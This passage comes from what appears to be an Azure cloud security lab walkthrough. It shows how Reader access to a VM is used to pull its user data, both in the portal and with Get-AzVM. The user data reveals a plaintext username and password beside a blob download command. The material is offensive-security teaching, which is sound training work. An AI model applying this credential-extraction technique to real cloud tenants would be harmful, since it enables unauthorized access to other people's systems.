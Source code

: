 ```powershell
Scope              : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourcegroups/content-static-2/providers/Microsoft.Compute/virtualMachines/SECURITY-PC
DisplayName        : IT-HELPDESK
SignInName         : 
RoleDefinitionName : Reader
RoleDefinitionId   : acdd72a7-3385-48ef-bd42-f606fba81ae7
ObjectId           : 8a517e87-6b05-45ae-b1ca-7436f1682602
ObjectType         : Group
CanDelegate        : False
Description        : 
ConditionVersion   : 
Condition          : 
```


![](https://i.imgur.com/L5Sodhg.png)



## **Extracting Credentials**


Since we have `Reader` access to a virtual machine, something that is worth checking is custom user data fields, Go ahead and click the `SECURITY-PC` resource


![](https://i.imgur.com/kZqoiYd.png)



Click on the `Operating system` menu under the `Settings` section, the `User data` field we see that an Azure CLI command has been added, including a comment with credentials!

![](https://i.imgur.com/mqUAOGb.png)


```
# Credentials: User: security-user | Password: Imp0sec0sT! az storage blob download --account-name securityconfigs --container-name security-pc --name config-latest.xml --auth-mode login
```


We can get the virtual machine user data from the command line instead of using the Az portal as we did previously, as shown below.

```powershell
PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> Get-AzVM -ResourceGroupName "content-static-2" -Name "SECURITY-PC" -UserData


ResourceGroupName : content-static-2
Id                : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/content-static-2/providers/Microsoft.Compute/virtualMachines/SECURITY-PC
VmId              : 648c8a08-c90a-4a95-8922-4cbf28375bcb
Name              : SECURITY-PC
Type              : Microsoft.Compute/virtualMachines
Location          : eastus
LicenseType       : Windows_Client
Tags              : {}
HardwareProfile   : {VmSize}
NetworkProfile    : {NetworkInterfaces}
SecurityProfile   : {UefiSettings, SecurityType}
OSProfile         : {ComputerName, AdminUsername, WindowsConfiguration, Secrets, AllowExtensionOperations, RequireGuestProvisionSignal}
ProvisioningState : Succeeded
StorageProfile    : {ImageReference, OsDisk, DataDisks, DiskControllerType}
Identity          : {PrincipalId, TenantId, Type}
Zones             : {1}
```